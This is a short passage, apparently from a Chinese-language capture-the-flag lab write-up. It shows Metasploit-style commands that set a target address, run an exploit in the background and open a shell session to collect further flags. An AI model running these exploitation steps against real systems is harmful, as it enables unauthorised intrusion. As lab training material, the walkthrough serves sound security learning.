 ![](./images/启用第三个shell后拿到第二个flag.png)
* 这样就拿到了第二个flag
* 同理，我们只要改变上面options中的RHOSTS即可，就可以拿到第三个，第四个flag
```bash
set RHOSTS 192.170.84.3
exploit -j
sessions -i 4

ls /tem
```
![](./images/拿到第四个shell.png)